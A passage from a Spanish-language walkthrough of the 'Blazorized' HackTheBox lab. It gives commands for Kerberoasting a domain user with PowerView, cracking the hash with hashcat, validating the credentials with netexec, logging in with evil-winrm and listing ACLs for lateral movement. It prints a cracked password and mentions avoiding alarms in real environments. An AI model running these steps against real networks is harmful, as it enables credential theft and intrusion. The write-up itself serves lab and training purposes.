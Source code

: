 dato(quisiera probar a extraer el ticket sin modificar la propiedad, para saber si de igual modo funciona y no levantar alarmas en un entorno real donde no ser requieran redirecciones)

luego para el hash formateado usaremos:
```powershell
Get-DomainUser RSA_4810 | Get-DomainSPNTicket | Select-Object -ExpandProperty Hash
```
y a aqui, estamos pasando el usuario y solicitando el ticket a kerberos, toma el resultado y selecciona la propiedad hash del objeto que contiene el ticket 

lo que nos queda por hacer es guardar el hash en un archivo en nuestra maquina para hacerle fuerza bruta:
```bash
hashcat hash.txt /usr/s.../rockyou.txt
```
<img src="/images/writeup-blazorized/38.png">

vemos que la contrasena es: (Ni7856Do9854Ki05Ng0005 #)

tenemos unas nuevas credenciales y vamos a probarlas con la herramienta #netexec para saber si son validas antes de intentar una entrada
```bash
netexec winrm blazorized.htb -u RSA_4810 -p "(Ni...)"
```

si vemos "(Pwn3d )" podemos usar evil-winrm para conectarnos como el nuevo usuario:
```bash
evil-winrm -u RSA_4810 -p "(Ni...)" -i 10.10.10.10
```

como este usuario, podemos buscar que permisos o acciones interesantes podemos hacer para seguir haciendo movimientos laterales (porque aun no somos admins)

para ello, aprovechando la herramienta que ya se encuentra en la maquina iremos a "C:\Programdata" y usaremos el comado:
```powershell
. ./powerview.ps1
```
para traer de nuevo el modulo y:
```powershell
Find-InterestingDomainAcl -ResolveGUIDS | ?{$_.IdentityReferenceName -match "RSA_4810"}
```
esto va a buscar configuraciones interesantes o permisos especiales que tenga nuestro nuevo usuario

lo mas interesante es el permiso *ObjectAceType : script-Path*
